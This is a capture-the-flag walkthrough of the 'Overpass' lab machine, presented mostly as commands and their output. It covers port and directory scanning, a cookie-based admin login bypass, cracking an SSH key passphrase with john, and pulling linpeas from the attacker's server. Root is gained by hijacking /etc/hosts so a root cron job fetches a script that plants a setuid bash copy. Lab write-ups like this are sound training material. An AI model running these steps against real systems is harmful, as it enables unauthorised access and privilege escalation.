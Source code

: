 # Overpass 1

## NMAP

```
$ sudo nmap -sS -p- 10.10.6.233 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 17:58 EDT
Nmap scan report for 10.10.6.233
Host is up (0.073s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 42.43 seconds

$ nmap -sV -p 22,80 10.10.6.233   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 18:03 EDT
Nmap scan report for 10.10.6.233
Host is up (0.052s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.55 seconds
```                

## Website

Looking at the Website
<img src="images/website.png">

On the html source code we can find the following comment:
<img src="images/romans.png">

This may indicate that it is using some kind of ceaser cipher or a Mono-Alphabetic Substitution Cipher.

On the aboutus page we can see a list of people that work at this company/group:

<img src="images/staff.png">

There are also place where we can download the source code and executables for diferent Operating Systems. In this source we can see how encryption is performed and it is done using ROT47.

## Directory enumeration with Gobuster

```
$ gobuster dir -u http://10.10.6.233 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.6.233
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 0] [--> img/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/admin                (Status: 301) [Size: 42] [--> /admin/]
/css                  (Status: 301) [Size: 0] [--> css/]
/http%3A%2F%2Fwww     (Status: 301) [Size: 0] [--> /http:/www]
/http%3A%2F%2Fyoutube (Status: 301) [Size: 0] [--> /http:/youtube]
/http%3A%2F%2Fblogs   (Status: 301) [Size: 0] [--> /http:/blogs]
/http%3A%2F%2Fblog    (Status: 301) [Size: 0] [--> /http:/blog]
/**http%3A%2F%2Fwww   (Status: 301) [Size: 0] [--> /%2A%2Ahttp:/www]
/http%3A%2F%2Fcommunity (Status: 301) [Size: 0] [--> /http:/community]
/http%3A%2F%2Fradar   (Status: 301) [Size: 0] [--> /http:/radar]
/http%3A%2F%2Fjeremiahgrossman (Status: 301) [Size: 0] [--> /http:/jeremiahgrossman]
/http%3A%2F%2Fweblog  (Status: 301) [Size: 0] [--> /http:/weblog]
/http%3A%2F%2Fswik    (Status: 301) [Size: 0] [--> /http:/swik]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

## Admin portal

Looking at the login js file where the we can see the form being posted we can see the following code.

<img src="images/login-js.png">

I simply changed the session cookie on the console


<img src="images/setCookie.png">

We simply refresh the page and then have access to the admin area.

<img src="images/adminArea.png">

Here we can find an ssh key. We also have a name: ***James***.

## SSH

Firstly in order to use the rsa private key we need to changes it's permissions. We also need to crack it's password. We can use john the ripper to do this.

* Change permission of rsa private key

    ```chmod 600 overpass_rsa```
* ssh to john format

    ```$ ./ssh2john.py overpass_rsa > overpass_rsa_john```

* crack it with john

    ```
    $ john overpass_rsa_john --wordlist=/home/kali/Desktop/rockyou.txt 
    Created directory: /home/kali/.john
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
    Cost 2 (iteration count) is 1 for all loaded hashes
    Will run 2 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    james13          (overpass_rsa)     
    1g 0:00:00:00 DONE (2023-10-11 19:40) 7.692g/s 102892p/s 102892c/s 102892C/s lisa..honolulu
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed. 
    ```

Password is james13

We can now ssh into the machine.

```
$ ssh -i overpass_rsa james@10.10.6.233                           
Enter passphrase for key 'overpass_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Oct 11 23:42:24 UTC 2023

  System load:  0.0                Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 16%                IP address for eth0: 10.10.6.233
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ 
```

## Priv Esc

Using linpeas.

I got linpeas on the machine using a python http server.

```
$ python3 -m http.server 1234
```

```
james@overpass-prod:~$ wget http://10.18.22.237:1234/linpeas.sh
--2023-10-11 23:46:28--  http://10.18.22.237:1234/linpeas.sh
Connecting to 10.18.22.237:1234... connected.
HTTP request sent, awaiting response... 200 OK
Length: 847730 (828K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                100%[====================================================================================>] 827.86K   994KB/s    in 0.8s    

2023-10-11 23:46:29 (994 KB/s) - ‘linpeas.sh’ saved [847730/847730]
```

We find an odd cron job. It runs as root.
<img src="images/cronJob.png">


We find that we can also write to /etc/hosts.

<img src="images/hosts.png">

With this info we can then chage the /etc/hosts to our local local machine and make a malicious shell file that will run as root on the machine we are attacking

### Creat the buildscript

```
#!/bin/bash

cp /bin/bash /tmp/mal_bash

chmod +xs /tmp/mal_bash

```

### Change the hosts file

```
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
# 127.0.0.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

10.18.22.237    overpass.thm
```

### Serve the file

```mv buildscript.sh downloads/src ```

```
$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.6.233 - - [11/Oct/2023 20:03:01] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
```

### Go to /tmp and get a root shell

```
james@overpass-prod:~$ cd /tmp
james@overpass-prod:/tmp$ ls
mal_bash                                                                          systemd-private-2d53c5b9d23a4c21a01e8999cb61433b-systemd-timesyncd.service-QI93NL
systemd-private-2d53c5b9d23a4c21a01e8999cb61433b-systemd-resolved.service-54rn0p  tmux-1001
james@overpass-prod:/tmp$ ./mal_bash -p
mal_bash-4.4# whoami
root
mal_bash-4.4# 
```

